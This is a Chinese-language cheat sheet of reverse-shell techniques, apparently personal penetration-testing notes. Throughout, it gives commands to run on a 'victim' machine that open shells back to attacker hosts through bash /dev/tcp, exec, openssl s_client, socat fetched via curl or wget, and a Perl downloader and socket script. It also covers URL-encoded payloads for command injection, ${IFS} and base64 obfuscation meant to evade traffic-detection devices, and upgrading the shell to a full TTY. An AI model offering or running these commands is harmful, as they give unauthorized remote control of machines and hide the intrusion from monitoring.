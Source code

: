 ### 1、判断目标存在哪些反弹shell的命令
```
受害机上执行：whereis bash nc exec telnet python php perl ruby java go gcc g++
```
### 4、反弹shell
```
bash反弹shell：
VPS上执行：nc -n -v -lp 1024
受害机上执行：/bin/bash -i >& /dev/tcp/<your_vps>/1024 0>&1
需要注意，当在URL地址栏或burp中进行命令注入利用时，需执行：/bin/bash -i %3E%26 /dev/tcp/xx.xx.xx.xx/1024 0%3E%261

exec反弹shell：0<&196;exec 196<>/dev/tcp/<your_vps>/1024; sh <&196 >&196 2>&196

其他反弹shell命令可通过浏览器插件Hack-Tools查看
```
### 5、绕过流量审查反弹shell
```
第一步，在VPS上生成SSL证书的公钥/私钥对：
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
第二步，VPS监听反弹shell：
openssl s_server -quiet -key key.pem -cert cert.pem -port 443
第三步，受害机上用openssl加密反弹shell的流量：
mkfifo /tmp/s;/bin/bash -i < /tmp/s 2>&1|openssl s_client -quiet -connect xx.xx.xx.xx > /tmp/s;rm /tmp/s
此时，VPS上成功获取哑shell
```
### 6、将哑shell变为功能齐全的交互式shell
```
第一步，在哑shell中执行：
python -c 'import pty;pty.spawn("/bin/bash")'
第二步：键入Ctrl-z，回到VPS的命令行中
第三步，在VPS中执行下述命令回到哑shell中：
stty raw -echo
fg
第四步，在哑shell中键入Ctrl-l，并执行：
reset
export SHELL=bash
export TERM=xterm-256color
stty rows 54 columns 104
此时，VPS上的shell为全功能的shell

如果拿到的shell执行Ctrl-z会退出会话，可考虑使用socat的方案：

攻击机：
socat file:`tty`,raw,echo=0 tcp-listen:4444
受害机：
curl -o /tmp/socat http://192.168.81.160:8000/socat 或者 wget -O /tmp/socat http://192.168.81.160:8000/socat
chmod u+x /tmp/socat
/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.81.160:4444
此时拿到的shell可以执行删除、可以选择历史命令、可以执行ctlr-c
```
### 参考链接：  
https://www.freebuf.com/vuls/211847.html  
https://saucer-man.com/information_security/233.html#cl-1  



perl反弹shell  
用于生成下载脚本的bash命令：
```
echo use LWP::Simple\;\$url=\"http://1.1.1.1/r.txt\"\;\$coont=get\(\$url\)\;die \"not found link..\" if\(\!defined\(\$coont\)\)\;open \$file,\"\>r.pl\" or die \"couldn\'t open t.txt ..\\n\"\;print \$file \$coont\;close\(\$file\)\;exit\;>d.pl
```
执行后生成d.pl，再执行d.pl下载r.pl，r.pl（用于反连的perl脚本）如下：
```
use IO::Socket::INET;$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"1.1.1.1:8080");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~/(.*)/){system $1;}};
```

#### perl有一个不调用bash的反弹shell

1、bash反弹shell  
attack执行：nc -lvp 2333  
victim执行：
```
bash -i >& /dev/tcp/1.1.1.1/2333 0>&1
```
# linux下bash反弹shell绕过流量检测设备
```
bash -c 'exec bash -i &>/dev/tcp/120.48.45.46/12345 <&1'

bash -c bash${IFS}-i${IFS}>&/dev/tcp/120.48.45.46/12345<&1
```
参考链接：https://blog.csdn.net/whatday/article/details/107098353

使用火狐浏览器插件HackTools生成base64编码后的反弹shell命令，替换下面的base64字符串
```
bash -c {echo,L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8zOS45OC4yNTAuNDcvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}
```

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvODAwMCAwPiYx}|{base64,-d}|{bash,-i}

其中 YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvODAwMCAwPiYx 是 bash -i >& /dev/tcp/127.0.0.1/8000 0>&1 的base64编码
```